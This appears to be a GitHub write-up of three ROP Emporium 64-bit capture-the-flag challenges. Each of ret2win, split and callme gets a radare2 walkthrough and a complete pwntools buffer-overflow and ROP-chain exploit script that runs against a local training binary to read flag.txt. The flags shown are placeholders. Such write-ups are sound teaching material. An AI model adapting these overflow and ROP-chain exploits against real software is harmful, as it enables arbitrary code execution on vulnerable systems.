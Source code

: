 # ROP EMPORIUM <a name="ropemp"></a>

***

| Challenge          | Walkthrough                                                                                     |
| ------------       | --------                                                                                        |
| [Ret2Win](#ret2win)| [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| [Split](#split)    | [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Split64.pdf)  |                                                         
| [CallMe](#callme)  | [pdf](https://github.com/Ordered-Chaos/Pwnfolio/blob/master/ROP_Emporium/Writeups/Callme64.pdf) |
| Write4             | pdf                                                                                                |

***

## RET2WIN 64 bit<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. 

> ### 2. Solution
>> The goal here is to:
>>
>> - [ ] **Find offset of the ret2win function**
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>>
>> - [ ] **Find out the buffer length**
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>>
>> - [ ] **Overflow the buffer and overwrite `$rsp` with the ret2win address offset**
>>> I used a pwntools script in order to execute the exploit.

~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## SPLIT 64 bit<a name="split"></a>

> ### 1. Problem
>> In the split challenge, there exists a function that calls system along with
>> the string `/bin/cat flag.txt` which is all that is needed to get the flag. The 
>> twist is that they are split apart and need to be brought together. The goal here is to:

> ### 2. Solution
>> The goal here is to:
>>
>> - [ ] **Find the address offset of the system call**
>>> Here I used the `> afl` command in radare2 to list the functions. From there I navigated to 
>>> the *usefulFunction* using `>  usefulFunction` followed by a `> pdf` command to disassemble
>>> the function. This gave me the address of the system call.
>>>
>> - [ ] **Find the address offset of the `/bin/cat flag.txt` string**
>>> I used the `> iz` command in radare2 to print a list of strings in the binary. From here I 
>>> was able to find the address of the `/bin/cat flag.txt` string.
>>>
>> - [ ] **Find a ROP gadget that can pop our string into `$rdi`**
>>> The `> /R pop rdi;` command in radare2 searches through the binary and lists all ROP gadgets
>>> that have the `pop $rdi` instruction. This gave me the address to the gadget.
>>>
>> - [ ] **Overflow the buffer, overwrite `$rsp` and execute the exploit**
>>> As always, I created a pwntools script in order to execute the exploit.

~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('split')  # setting up the envronment
context.log_level = 'debug'       

usefulstring = p64(0x601060)         # 'cat flag.txt' string
systemaddr = p64(0x40074b)           # call to system in usefulFunction
rop = p64(0x4007c3)                  # pop rdi; ret;
padding = cyclic(40)

payload = padding                    # junk to fill up buffer
payload += rop                       # pops '/bin/cat flag.txt' into rdi
payload += usefulstring              # string to be as the argument
payload += systemaddr                # call to system in useful function

io = process(elf.path)
io.sendline(payload)                 # sends payload
io.wait_for_close()                  
flag = io.recvall()
print(flag)

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***

## CallMe 64 bit<a name="callme"></a>

> ## 1. Problem
>> In order to get the flag in the callme challenge, there are 3 functions that need
>> to be called in order. Each function must be called with with the arguments 
>> *0xdeadbeef, 0xdoodfood, and 0xcafebabe*. 

> ## 2. Solution
>> One important point to note is that the functions will have to be called with their
>> *.plt* address as opposed to their offset. This challanged will be the first in which
>>  a legitimate rop chain will be used. The goal here will be too:
>> - [ ] **Find the *.plt* addresses of the 3 required functions**
>>> In radare2, the `> afl` command lists the function along with their *.plt* addresses.
>>> All that needs to be done is to note these addresses.
>>> 
>> - [ ] **Locate a rop gadget or chain of gadgets that can hold the arguments**
>>> In 64 bit systems, the first 6 arguments to a function call are passed in the *rdi, rsi, rdx, rcx, 
>>> r8, r9* registers in that order. Using the `> /R pop rdi;` command in radare2 you're able to to see a list rop gadget
>>> chains that start with the `pop rdi` instruction. In this binary, there happens to 
>>> be a `pop rdi; pop rsi; pop rdx; ret;` chain which is perfect for handling the 3 arguments.
>>>
>> - [ ] **Create and execute a script that chains all of the elements together**
>>> As a matter of course, I created a pwntools script to automate the exploit.

~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('callme')  # setting up the environment
context.log_level = 'debug'       

padding = cyclic(40)                  # junk to fill up buffer
para1 = p64(0xdeadbeefdeadbeef)       # first function arg 
para2 = p64(0xcafebabecafebabe)       # second function arg
para3 = p64(0xd00df00dd00df00d)       # third function arg
rop = p64(0x40093c)                   # pop rdi; pop rsi; pop rdx; ret;
callme1 = p64(0x400720)               # .plt of first function call  
callme2 = p64(0x400740)               # .plt of second function call
callme3 = p64(0x4006f0)               # .plt of third function call

payload = padding                     # junk to fill up buffer
payload += rop                        # start of ROP Chain
payload += para1
payload += para2
payload += para3
payload += callme1
payload += rop
payload += para1
payload += para2
payload += para3
payload += callme2
payload += rop
payload += para1
payload += para2
payload += para3
payload += callme3                    # end of ROP chain 

io = process(elf.path)
io.sendline(payload)                  # sends payload
io.wait_for_close()                  
flag = io.recvall()                   # receive output
print(flag)                           # print flag!

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 

***
